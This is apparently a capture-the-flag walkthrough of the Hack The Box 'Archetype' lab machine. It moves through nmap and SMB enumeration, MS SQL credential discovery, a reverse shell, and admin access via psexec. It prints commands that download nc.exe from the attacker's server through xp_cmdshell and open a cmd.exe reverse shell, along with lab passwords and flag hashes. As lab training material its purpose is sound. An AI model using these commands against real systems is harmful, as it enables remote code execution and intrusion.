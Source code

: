 # Enumeration

```nmap -sV -O -Pn 10.10.10.27```

![grafik](https://user-images.githubusercontent.com/84674087/130489807-df449044-ed18-4a2c-a8f4-ad85af5c4946.png)

# Exploitation

## 445/TCP SMB (Server 2008 R2)

* Let us start with the file sharing service SMB
* The tool "smbclient" is handy to use

```smbclient --no-pass -L 10.10.10.27```

![grafik](https://user-images.githubusercontent.com/84674087/130490914-42470a10-d0b5-4f9f-93bd-e07ae22ffaae.png)

* We can try to read the share "backups", which seems promising ... 

```smbclient --no-pass -L //10.10.10.27/backups```

![grafik](https://user-images.githubusercontent.com/84674087/130491116-0266f4f6-9d16-49f6-87cb-51e8c639254d.png)


> dtsConfig:
> > A configuration file written in XML, which is used to apply property values to SQL Server Integration Services (SSIS) packages.
> > SSIS packages are used to automate extraction, transformation, and loading operations to/from DBMS. It may contain sensitive information (!) and thus the access should be restricted (BlueTeam!). 


* When using the command "more" we can check the content of prod.dtsConfig
* And we discover credentials: 
  * User ID: **ARCHETYPE\sql_svc**
  * Password: **M3g4c0rp123**

![grafik](https://user-images.githubusercontent.com/84674087/130491457-7e4f196a-6e2e-4ab5-a1ae-42889ca8c8b2.png)

## 1433/TCP MS SQL

* Let us continue with MS SQL after obtaining credentials for the corresponding DB
* A useful python tool at this stage is impacket: https://github.com/SecureAuthCorp/impacket
* Description: "A collection of Python classes for working with network protocols"
* Within this package we find "mssqlclient" which we are going to use as shown below

```python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth```

![grafik](https://user-images.githubusercontent.com/84674087/130493787-a125d7ea-1a5d-43b1-b8a7-87fb0a5ee7ce.png)

* Let us try to establish a reverse shell
  1. Download nc from https://github.com/int0x33/nc.exe/blob/master/nc.exe
  2. Start HTTP Server on your machine (in same directoy where nc.exe is located)
  3. Invoke shell via mssqlclient
  4. Download nc.exe via SQL shell
  5. Start a netcat listening job in a separate terminal on your own machine
  6. Execute netcat on victim machine (beforehand: check the IPv4 of your HTB-VPN connection)

```
python -m http.server 80
xp_cmdshell powershell wget -UseBasicParsing http://10.10.16.79:80/nc.exe -o %userprofile%/nc.exe
nc -lvnp 4444
ifconfig
xp_cmdshell powershell %userprofile%/nc.exe -nv 10.10.16.79 4444 -e cmd.exe
```

![grafik](https://user-images.githubusercontent.com/84674087/130494828-27273e09-62e1-4a08-99c9-9a0850f33ce1.png)

![grafik](https://user-images.githubusercontent.com/84674087/130494843-8163545c-18bb-47cb-bbb2-3dd48fa75d09.png)

![grafik](https://user-images.githubusercontent.com/84674087/130494864-39441aa4-8c44-4d7c-b73d-581abef1c5d5.png)

![grafik](https://user-images.githubusercontent.com/84674087/130495197-6f709b62-5b08-4728-9b6d-85f0ded8fe8b.png)

![grafik](https://user-images.githubusercontent.com/84674087/130495313-155f974b-d172-4c47-97df-165b07b8b99b.png)

* After searching through the file system we can find the USER FLAG on Desktop
  * user.txt: **3e7b102e78218e935bf3f4951fec21a3**

![grafik](https://user-images.githubusercontent.com/84674087/130495456-fe714750-e688-4611-9665-1d1d226553e7.png)

### Admin Flag

* One option is the lookup of powershell command history
* This discloses the admin password: **MEGACORP_4dm1n!!**

```cd %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine```

![grafik](https://user-images.githubusercontent.com/84674087/130495725-669e3c9d-74f5-4bee-97a3-e6800b4365b5.png)

* *Option A*: Logon as Administrator via smbclient on C$
* *Option B*: Utilize psexec.py from python-impacket

```
smbclient -U administrator \\\\10.10.10.27\\C$
psexec.py Administrator@10.10.10.27
```

![grafik](https://user-images.githubusercontent.com/84674087/130496127-3b55f9bf-0180-43ba-8758-9acfb2da0946.png)

![grafik](https://user-images.githubusercontent.com/84674087/130496139-571d103e-fb4c-4b87-a5b7-7e92b17d2644.png)

![grafik](https://user-images.githubusercontent.com/84674087/130496178-3517b04d-8ac5-49c8-9af6-4cb678b92f5c.png)

--> On Desktop we find root.txt: **b91ccec3305e98240082d4474b848528**
